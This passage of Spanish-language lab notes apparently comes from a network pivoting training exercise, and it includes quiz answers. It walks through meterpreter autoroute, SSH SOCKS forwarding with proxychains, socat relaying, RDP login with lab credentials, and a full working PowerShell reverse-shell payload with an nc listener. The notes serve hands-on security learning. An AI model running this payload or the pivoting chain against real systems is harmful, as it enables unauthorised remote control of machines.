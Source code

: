       [+] 172.16.5.19
      [+] 172.16.5.129
      ```

   * 🔰 **Respuesta:** `172.16.5.19,172.16.5.129`

2. Al ejecutar **AutoRoute** veremos las rutas que se asignan para que el **host 172.16.5.19** sea alcanzable por nosotros. 

   ```
   meterpreter > run autoroute -s 172.16.5.0/23
   <SNIP>
   [+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
   ```

   * 🔰 **Respuesta:** `172.16.5.0/255.255.254.0`

# Playing Pong with Socat 🏓

## Socat Redirection with a Reverse Shell 🙇‍♂️

`Socat` es una herramienta de red de código abierto que permite la creación de conexiones de datos bidireccionales entre dos puntos finales.

Para establecer una reverse shell seguiremos los siguientes pasos

   1. `ssh -D 9050 ubuntu@<IP Máquina>`: Haremos **Dynamic Port Forwarding**, para establecer una conexión de tipos **socks** con el fin de interactuar con el host target como si estuviera en nuestra red.

      * Agreamos la siguiente línea al archivo **`/etc/proxychains4.conf`**: socks5  127.0.0.1 9050

   2. Usamos socat en el servicio SSH para establecer una comunicación bidireccional: `socat TCP4-LISTEN:8080,fork TCP4:<tun0 IP>:80`

   3. Nos autenticamos en RDP*: `proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123`

   4. Abrimos Powershell como Administradores (**`Win`  + `x`**), y ejecutaremos un payload el cual enviará una shell a la Máquina Ubuntu por el puerto `8080`, y estaremos previamente en escucha con **rlwrap nc -lvnp 80** en nuestra Máquina Host

   * **Host:** `rlwrap nc -lvnp 80`
   * **Payload PowerShell:**

      ```powershell
      $LHOST = "<IP Ubuntu>"; $LPORT = 8080; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close() 
      ```

   5. Y obtenemos un reverse shell
